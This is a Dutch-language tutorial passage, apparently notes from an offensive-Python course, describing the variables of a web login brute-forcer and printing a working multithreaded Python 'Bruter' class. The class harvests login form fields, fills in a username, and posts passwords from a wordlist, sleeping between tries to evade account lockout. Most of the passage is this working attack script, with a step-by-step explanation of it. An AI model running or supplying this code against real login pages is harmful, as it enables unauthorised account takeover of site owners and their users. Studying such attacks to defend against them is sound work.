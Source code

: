 - TARGET-variabele is de URL waarvan script eerst zal worden gedownload en de HTML zal worden geparst
- SUCCESS-variabele is een stringpatroon waarop we zullen checken in de content na elke poging om na te gaan of we succesvol zijn geweest en binnengeraakt
- get_words-functie: woorden uit onze lijst bekomen 
- get_params-functie: ontvangt de HTTP-response content, parst het en loopt doorheen alle input elementen. Resultaat is een dictionary van parameters


We vervolgen:

```python
class Bruter:
    def __init__(self, username, url):
        self.username = username
        self.url = url
        self.found = False
        print(f'\nBrute Force Attack beginning on {url}.\n')
        print("Finished the setup where username = %s\n" % username)

    def run_bruteforce(self, passwords):
        for _ in range(10):
            t = threading.Thread(target=self.web_bruter, args=(passwords,))
            t.start()

    def web_bruter(self, passwords):
        session = requests.Session()
        resp0 = session.get(self.url)
        params = get_params(resp0.content)
        params['log'] = self.username

        while not passwords.empty() and not self.found:
            time.sleep(5)
            passwd = passwords.get()
            print(f'Trying username/password {self.username}/{passwd:<10}')
            params['pwd'] = passwd
            resp1 = session.post(self.url, data=params)
            
            if SUCCESS in resp1.content.decode():
                self.found = True
                print(f"\nBruteforcing successful.")
                print("Username is %s" % self.username)
                print("Password is %s\n" % passwd)
                self.found = True
```

Deze bruter-klasse behandelt alle HTTP requests en beheer van de cookies
De web_bruter method vervult de login aanval, in 3 fases:
- __Initialisatie__: we initialiseren een Session object van de requests library. Deze zal onze cookies behandelen. We maken het request naar de login form. Wanneer we de HTML content ontvangen geven we deze door aan de get_params-functie die ons de dictionary bezorgt met de form-elementen. We vervangen de username parameter en zijn klaar om te loopen door onze lijst met wachtwoorden. 
- __Loop__: het script slaapt voor enkele seconden om een account lockout te vermijden. Daarna halen we een wachtwoord uit de queue en gebruiken het om de parameter dictionary te vullen. Herhaalt zich tot de queue leeg is.
- __request__: we posten het request met onze parameter dictionary. Nadat we het resultaat terugkrijgen testen we of de authenticatie succesvol was. Indien de success-string aanwezig legen we de queue en stopt het script.
